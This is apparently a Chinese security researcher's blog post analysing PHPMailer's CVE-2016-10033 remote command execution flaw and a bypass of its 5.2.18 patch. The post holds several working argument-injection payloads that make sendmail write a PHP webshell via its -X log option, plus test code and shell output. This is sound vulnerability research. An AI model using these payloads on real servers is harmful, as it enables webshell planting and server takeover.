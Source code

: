 title: phpmailer RCE 分析
date: 2016-12-28 13:31:31
tags: php
---

最近报了个CVE-2016-10033, 是phpmailer 远程命令执行漏洞, 从昨天开始, 分析了一波

<!--more-->

## CVE-2016-10033

首先来看最早的版本, 环境和exp之类的可见<https://github.com/opsxcq/exploit-CVE-2016-10033>

触发该漏洞还有一系列要求:

> php version < 5.2.0
> no pcre
> phpmailer < 5.2.18
> php safe_mode = false

看着这一些列限制感觉这洞挺鸡肋的, 尤其是上面两个限制, php版本小于5.2, 已经很少见了, 默认情况下php是会编译安装pcre扩展的

接下来仔细分析下该漏洞, 看exp可知, 该漏洞和前段时间的[Roundcube 1.2.2 远程命令执行漏洞](http://blog.knownsec.com/2016/12/roundcube-1-2-2-%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/) 相似, 都是由于php的mail函数的第5个参数的问题.

然后开始定位:
代码位于文件class.phpmailer.php
![mail1](http://qn.lazysheep.cc/img/mail1.png)

从这里就可以看出上述第四个要求的原因, 如果开启了safe_mode, 则不会向mail函数传递第5个参数

接下来跟踪变量`$params`
![mail2](http://qn.lazysheep.cc/img/mail2.png)

变量`$params`来自于`$this->Sender`

继续跟踪:
![mail3](http://qn.lazysheep.cc/img/mail3.png)

变量`$this->Sender`是通过`setFrom`函数的第一个参数进行设置的

在之前, 函数对`$address`是进行有效性判断的, 接下来进入这个地址有效性判断的函数中去看看

![mail4](http://qn.lazysheep.cc/img/mail4.png)

从这段代码我们能知道, 如果`php version < 5.2.0` and `no pcre`, 则`$patternselect = 'noregex'`

继续往下看
![mail5](http://qn.lazysheep.cc/img/mail5.png)

当`$patternselect = 'noregex'`时, 这判断太好过了, 差不多只要字符串中含有`@`, 就能返回true

这样mail函数的第5个参数`$params`, 就能随意构造了

接下来说说这类漏洞的原理

php的mail函数默认情况下是通过执行sendmail命令(说是默认, 但为啥我在搭环境的时候php.ini中不设置`sendmail_path=/usr/sbin/sendmail -t -i` 就跑不起来?)

第5个参数`$params`也是sendmail的参数(可参考man sendmail)

这时候看exp就很好理解了:

```
vulnerables@ -OQueueDirectory=/tmp -X/www/backdoor.php
# -X 参数, 把日志写到/www/backdoor.php文件中
```

至于另一个-O参数, 在某些环境下需要
比如我搭的环境, 用的是debian, 默认情况下会出现`can not chdir(/var/spool/mqueue-client/): Permission denied`, 然后问了下p神, 他搭的环境用的是ubuntu, 不会报这个错误

这是由于权限设置的问题, 研究了下
```
$ ls -lF /var/spool
.....
drwxrws---  2 smmsp smmsp 4096 Dec 28 14:24 mqueue-client/'

$ chmod 777 /var/spool/mqueue-client
```

就不会出现这个错误了, 但是这就不是默认环境, 而是配置后的环境

之后发现如果加上`-OQueueDirectory=/tmp` 参数就不会报这个错误了, 猜测应该是默认情况下`QueueDirectory=/var/spool/mqueue-client`

总结下, 日志文件写到一个php文件中, 而mail发送的信息中含有php代码, 那么这不就可以形成webshell了么.

之后尝试了下能不能通过反引号进行命令执行, 没成功.

## bypass pcre8 正则

最初的版本太鸡肋了, 限制太多, 之后研究发现, 如果能bypass prce8 的正则, 那么限制条件不就可以减为:

> phpmailer < 5.2.18
> php safe_mode = false

如果这样, 那么作用就大了, 昨天p神就已经发表了他的bypass payload(这里膜一下, 速度太快了, 我才刚开始研究, 他就出结果了)

可以用这段代码来测试自己的payload:
```
<?php
require 'src/PHPMailerAutoload.php';
$mail = new PHPMailer;

$email = $_GET['t'];
$r = $mail->setFrom($email, 'Vulnerable Server');
var_dump($r);
var_dump($mail->Sender);

?>
```

昨晚我研究出了两张种bypass方案:

> a. -OQueueDirectory=/tmp/. -X/tmp/shell.php @a.com
> () -OQueueDirectory=/tmp/. -X/tmp/shell.php @a.com

再加上p神下午发的:

> a( -X/home/www/backdoor.php -OQueueDirectory=/tmp )@qq.com

然后看了下p神今天凌晨发的, 对比了下我已知的, 又多了一种

> " -X/home/www/backdoor.php -OQueueDirectory=/tmp "@qq.com


然后看了下github上的exp, 也进行了更新

> "vulnerables\" -OQueueDirectory=/tmp -X/www/backdoor.php server" @test.com

## phpmailer 5.2.19 RCE

分析完这漏洞后, 然后去分析了源码patch, 然后发现, patch并啥用

5.2.18的patch中, 唯一有用的代码是

```
$params = sprintf('-f%s', escapeshellarg($this->Sender));
```

加了一个`escapeshellarg` 进行处理, 之前的`Roundcube 1.2.2 远程命令执行漏洞` 也是用相同的方法进行处理的

但是我发现, 这个patch任然能bypass

举例其中一个payload:

> a'( -OQueueDirectory=/tmp -X/tmp/backdoor.php )@a.com

讲道理, 该payload被`escapeshellarg` 函数处理后是没问题的

```
php> var_dump(escapeshellarg("a'( -OQueueDirectory=/tmp -X/tmp/backdoor.php )@a.com"))
string(74) "'a'\''( -OQueueDirectory=/tmp -X/tmp/backdoor.php )@a.com'"
```

然后带入sendmail
```
$ sendmail -f'a'\''( -OQueueDirectory=/tmp -X/tmp/backdoor2.php )@a.com'
Recipient names must be specified
```

发现并跑不起来, 日志文件也没成功写入

但是传入mail函数中, 却能成功写入日志文件

之后对mail.c源码进行了研究, 发现:

![mail6](http://qn.lazysheep.cc/img/mail6.png)

在mail函数中, 对参数使用`php_escape_shell_cmd`进行处理

我们可以进行测试下:

```
# test.php
<?php
$payload = "a'( -OQueueDirectory=/tmp -X/tmp/backdoor.php )@a.com";
$earg = escapeshellarg($payload);
var_dump($earg);
$ecmd = escapeshellcmd($earg);
var_dump($ecmd);
?>
```

得到:
```
$ php test.php
string(58) "'a'\''( -OQueueDirectory=/tmp -X/tmp/backdoor.php )@a.com'"
string(62) "'a'\\''\( -OQueueDirectory=/tmp -X/tmp/backdoor.php \)@a.com\'"

$ sendmail -f'a'\\''\( -OQueueDirectory=/tmp -X/tmp/backdoor.php \)@a.com\'
```

发现sendmail能成功写入日志文件, 虽然会报一些错, 但无伤大雅, 数据能写到日志文件中

从上面我们可以得到是`escapeshellarg` 和 `escapeshellcmd`函数一起处理参数, 导致的问题

同理: Roundcube也存在该问题

## Other

之后会对各大cms进行分析, 就目前分析过的两个Joomla和Wordpress来看, 并不是特别好利用

* Joomla中有phpmailer模块, 但是实际代码中却并未使用该模块
* Wordpress实际代码中使用了该模块, 而且还是5.2.14版本的, 但是设置参数的地方只有管理员能设置, 既然是管理员了, 要getshell又何必用这中麻烦的方法

所以感觉该漏洞在我眼中目前看来只能算个中危吧, 因为并没有发现非常棒的实际利用场景

*参考*

1. <https://github.com/opsxcq/exploit-CVE-2016-10033> 
2. <https://linux.die.net/man/8/sendmail.sendmail>
3. <https://www.leavesongs.com/PENETRATION/how-to-analyze-long-regex.html>
4. <https://www.leavesongs.com/PENETRATION/PHPMailer-CVE-2016-10033.html>
5. <https://github.com/php/php-src/blob/452dcf12ae3376a3cdb47490c51aadb0651a2a73/ext/standard/mail.c>
6. <https://github.com/PHPMailer/PHPMailer/commit/4835657cd639fbd09afd33307cef164edf807cdc>


PS: 文章刚写完发现54分钟前有人申请cve了, <https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10045-Vuln-Patch-Bypass.html>

































